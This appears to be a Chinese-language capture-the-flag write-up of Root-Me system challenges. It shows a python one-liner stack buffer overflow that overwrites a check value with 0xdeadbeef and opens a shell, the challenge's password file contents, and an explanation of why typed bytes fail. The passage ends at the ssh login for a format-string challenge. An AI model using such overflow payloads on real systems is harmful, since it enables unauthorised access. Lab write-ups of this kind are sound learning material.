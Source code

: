 ```bash
app-systeme-ch13@challenge02:~$ (python -c 'print "a"*40+"\xef\xbe\xad\xde" '; cat ) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
1w4ntm0r3pr0np1s
^CShell closed! Bye.

app-systeme-ch13@challenge02:~$

```

这个方法不对
```bash
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000ﾭÞ

[buf]: 0000000000000000000000000000000000000000ﾭÃ
[check] 0xc3adbeef

You are on the right way!
app-systeme-ch13@challenge02:~$

cat .passwd
```

原因在于手打的 ﾭÞ 无法被正确转义，

```sh
app-systeme-ch13@challenge02:~$ 0000000000000000000000000000000000000000ﾭÞ
WARNING:root:could not open file '/etc/apt/sources.list.d/nodesource.list'

0000000000000000000000000000000000000000\udcef\udcbe\udcad\udcc3\udc9e: command not found
app-systeme-ch13@challenge02:~$
```

直接被识别成五个字符了，所以用 python 比较靠谱。

## ELF x86 - Format string bug basic 1

```shell
[Press Shift-F1 for help]

Host/IP or ssh:// URL [localhost]: ssh://app-systeme-ch5:app-systeme-ch5@challen
ge02
Connecting to ssh://app-systeme-ch5@challenge02:22

load pubkey "/dev/null/.ssh/id_rsa": Not a directory
load pubkey "/dev/null/.ssh/id_rsa": Not a directory
load pubkey "/dev/null/.ssh/id_dsa": Not a directory
load pubkey "/dev/null/.ssh/id_dsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519_sk": Not a directory
load pubkey "/dev/null/.ssh/id_xmss": Not a directory
load pubkey "/dev/null/.ssh/id_xmss": Not a directory
      _           _ _                        ___ ____
  ___| |__   __ _| | | ___ _ __   __ _  ___ / _ \___ \
 / __| '_ \ / _` | | |/ _ \ '_ \ / _` |/ _ \ | | |__) |
```
